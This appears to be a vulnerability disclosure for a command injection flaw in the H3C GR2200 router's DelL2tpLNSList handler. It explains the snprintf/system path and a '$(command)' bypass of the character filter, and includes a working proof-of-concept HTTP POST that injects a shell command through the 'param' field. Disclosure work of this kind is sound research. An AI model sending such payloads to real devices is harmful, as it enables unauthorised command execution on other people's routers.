 # H3C GR2200 MiniGR1A0V100R014 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/cn/
- Firmware download address ： https://www.h3c.com/cn/d_202202/1542099_30005_0.htm

### Product Information

Overview of affected versions of H3C GR2200 router：

![image-20220724132311844](img/image-20220724132311844.png)

## Vulnerability details

H3C GR2200 (<=MiniGR1A0V100R014) was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.

![image-20220724112402312](img/image-20220724112402312.png)

Format the `param` parameter we entered into `V15` through the `snprintf` function, and execute our command through the system function. Because `V10` and `V11` are limited to 8 bytes, we can fill `V10` with 8 bytes so that when `%s` in the `snprintf` function is formatted, `V10` and `V11` will be connected actively.

![image-20220724132824754](img/image-20220724132824754.png)

Although the `sub_100695A4` function filters some dangerous characters, we can bypass them with `$(command)`.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following `POC` attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.124.1:80/maintain_basic.asp
Cookie: JSESSIONID=04f803a0
Upgrade-Insecure-Requests: 1
Content-Length: 67

CMD=DelL2tpLNSList&GO=vpn_l2tp_session.asp&param=1;$(ps>/ww w/1)	#;
```

![image-20220724133957626](img/image-20220724133957626.png)

The picture above shows the debug log after POC is sent.

![image-20220724133234021](img/image-20220724133234021.png)

The above illustration shows the effect of command execution.

